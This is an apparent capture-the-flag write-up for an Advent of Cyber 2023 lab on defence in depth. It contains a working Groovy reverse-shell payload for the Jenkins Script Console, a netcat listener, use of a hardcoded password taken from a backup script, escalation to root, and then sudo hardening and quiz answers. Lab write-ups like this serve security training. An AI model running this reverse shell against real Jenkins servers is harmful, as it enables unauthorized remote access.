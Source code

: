 # AoC 2023 - Day 12

> `Defence in depth` Sleighing Threats, One Layer at a Time

> With the chaos of the recent merger, the company's security landscape has turned into the Wild West. Servers and endpoints, once considered fortresses, now resemble neglected outposts on the frontier, vulnerable to any attacker.

## Learning Objectives
> - Defence in Depth
> - Basic Endpoint Hardening
> - Simple Boot2Root Methodology


## Steps

```bash
└─$ export box=10.10.165.33
└─$ firefox http://$box:8080
```

`Jenkins` web-app is running. Under `Manage Jenkins/ScriptConsole` I can run commands on the box.

#### Setting up a reverse shell
```bash
String host="{my ip}";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Accepting the connection
```bash
└─$ nc -nvlp 6996
listening on [any] 6996 ...
connect to [10.8.214.49] from (UNKNOWN) [10.10.165.33] 36028
whoami
jenkins
```

There is a backup-script at `/opt/scripts/backup.sh`:
```bash
#!/bin/sh

mkdir /var/lib/jenkins/backup
mkdir /var/lib/jenkins/backup/jobs /var/lib/jenkins/backup/nodes /var/lib/jenkins/backup/plugins /var/lib/jenkins/backup/secrets /var/lib/jenkins/backup/users

cp /var/lib/jenkins/*.xml /var/lib/jenkins/backup/
cp -r /var/lib/jenkins/jobs/ /var/lib/jenkins/backup/jobs/
cp -r /var/lib/jenkins/nodes/ /var/lib/jenkins/backup/nodes/
cp /var/lib/jenkins/plugins/*.jpi /var/lib/jenkins/backup/plugins/
cp /var/lib/jenkins/secrets/* /var/lib/jenkins/backup/secrets/
cp -r /var/lib/jenkins/users/* /var/lib/jenkins/backup/users/

tar czvf /var/lib/jenkins/backup.tar.gz /var/lib/jenkins/backup/
/bin/sleep 5

username="tracy"
password="{REDACTED}"
Ip="localhost"
sshpass -p "$password" scp /var/lib/jenkins/backup.tar.gz $username@$Ip:/home/tracy/backups
/bin/sleep 10

rm -rf /var/lib/jenkins/backup/
rm -rf /var/lib/jenkins/backup.tar.gz
```

#### ssh tracy@box

```bash
└─$ ssh tracy@$box
tracy@10.10.165.33's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
[...]
```

#### Checking privileges

```bash
tracy@jenkins:~$ sudo -l
[sudo] password for tracy:
Matching Defaults entries for tracy on jenkins:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tracy may run the following commands on jenkins:
    (ALL : ALL) ALL
```

Basically, `tracy` can do anything.

```bash
tracy@jenkins:~$ sudo su
root@jenkins:/home/tracy#
```

Getting the root flag.

```bash
root@jenkins:/# sudo find / -type f -name "flag.txt"
/root/flag.txt
root@jenkins:/home/admin# cd
root@jenkins:~# ls -la
total 48
drwx------  5 root root  4096 Dec 17 11:40 .
drwxr-xr-x 19 root root  4096 Aug 29 21:23 ..
-rw-------  1 root root     0 Dec 17 11:40 .bash_history
-rw-r--r--  1 root root  3162 Nov 20 00:33 .bashrc
-rw-r--r--  1 root root    17 Nov 20 00:05 flag.txt
-rw-------  1 root root    20 Nov 20 00:18 .lesshst
drwxr-xr-x  3 root root  4096 Aug 30 14:04 .local
-rw-r--r--  1 root root   161 Jul  9  2019 .profile
drwx------  3 root root  4096 Aug 29 21:38 snap
drwx------  2 root root  4096 Nov 15 03:58 .ssh
-rw-r--r--  1 root root     0 Aug 29 23:10 .sudo_as_admin_successful
-rw-------  1 root root 12111 Nov 22 20:01 .viminfo
root@jenkins:~# cat flag.txt
{REDACTED}
```

#### Hardening - removing tracy from sudo group
```bash
root@jenkins:/# sudo deluser tracy sudo
Removing user `tracy' from group `sudo' ...
Done.
root@jenkins:/# sudo -l -U tracy
User tracy is not allowed to run sudo on jenkins.
```

After logging out
```bash
tracy@jenkins:~$ sudo -l
[sudo] password for tracy:
Sorry, user tracy may not run sudo on jenkins.
```

#### Getting the ssh flag

The flag is tucked away inside `sshd_config`.

```bash
admin@jenkins:$ nano /etc/ssh/sshd_config
```

#### Getting the jenkins flag

This one took me some time... it was found inside `config.xml.bak`.

```bash
tracy@jenkins:/var/lib/jenkins$ nano config.xml.bak
```

There are more steps to the entire walk-through, but this is what's needed to answer all the questions.

## Question 1

> What is the default port for Jenkins?

8080

## Question 2

> What is the password of the user tracy?

Found in `/opt/scripts/backup.sh`.

## Question 3

> What's the root flag?

Found in `/flag.txt` with root access.

## Question 4

> What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?

`Sorry, user tracy may not run sudo on jenkins.`

## Question 5

> What's the SSH flag?

The flag is tucked away inside `sshd_config`.

## Question 6

> What's the Jenkins flag?

This one took me some time... it was found inside `config.xml.bak`.